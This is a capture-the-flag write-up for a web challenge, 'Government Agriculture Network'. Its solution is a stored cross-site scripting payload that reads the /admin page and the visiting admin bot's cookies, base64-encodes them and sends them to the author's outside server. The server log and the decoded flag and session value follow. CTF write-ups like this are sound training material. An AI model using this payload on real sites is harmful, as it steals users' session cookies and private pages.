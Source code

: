 # Government Agriculture Network (web)

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

https://govagriculture.web.ctfcompetition.com/

### Solution
```Your post was submitted for review. Administator will take a look shortly.```

It looks like we'll have the XSS here. Exploit below:
```html
<h1>Hello world!</h1>
<script>
  var req = new XMLHttpRequest();
  req.onload = function() {
    var reqHook = new XMLHttpRequest();
    reqHook.open(
      "GET",
      "https://mfurga.com?data=" + btoa(req.responseText) + "&cookies=" + btoa(document.cookie),
      false);
    reqHook.send();
  }
  req.open("GET", "/admin");
  req.send();
</script>
```
Now the request should be sent to my server. Let's check the logs.
```
104.155.55.51 - - [27/Jul/2019:14:21:06 +0200] "GET /?data=Q1RGezhhYWEyZjM0YjM5MmI0MTU2MDE4MDRjMmY1ZjBmMjRlfQ==&cookies=ZmxhZz1DVEZ7OGFhYTJmMzRiMzkyYjQxNTYwMTgwNGMyZjVmMGYyNGV9OyBzZXNzaW9uPUhXU3V3WDg3ODRDbWtRQzFWdjBCWEVUanlYTXROUXJW HTTP/1.0" 200 1959 "https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Ch1%3EHello+world%21%3C%2Fh1%3E%0D%0A%3Cscript%3E%0D%0A++var+req+%3D+new+XMLHttpRequest%28%29%3B%0D%0A++req.onload+%3D+function%28%29+%7B%0D%0A++++var+reqHook+%3D+new+XMLHttpRequest%28%29%3B%0D%0A++++reqHook.open%28%0D%0A++++++%22GET%22%2C%0D%0A++++++%22https%3A%2F%2Fmfurga.com%3Fdata%3D%22+%2B+btoa%28req.responseText%29+%2B+%22%26cookies%3D%22+%2B+btoa%28document.cookie%29%2C%0D%0A++++++false%29%3B%0D%0A++++reqHook.send%28%29%3B%0D%0A++%7D%0D%0A++req.open%28%22GET%22%2C+%22%2Fadmin%22%29%3B%0D%0A++req.send%28%29%3B%0D%0A%3C%2Fscript%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36"
```

```js
> atob("Q1RGezhhYWEyZjM0YjM5MmI0MTU2MDE4MDRjMmY1ZjBmMjRlfQ==")
"CTF{8aaa2f34b392b415601804c2f5f0f24e}"
> atob("ZmxhZz1DVEZ7OGFhYTJmMzRiMzkyYjQxNTYwMTgwNGMyZjVmMGYyNGV9OyBzZXNzaW9uPUhXU3V3WDg3ODRDbWtRQzFWdjBCWEVUanlYTXROUXJW")
"flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV" 
```
And we have the flag and session id 😁.

**FLAG: CTF{8aaa2f34b392b415601804c2f5f0f24e}**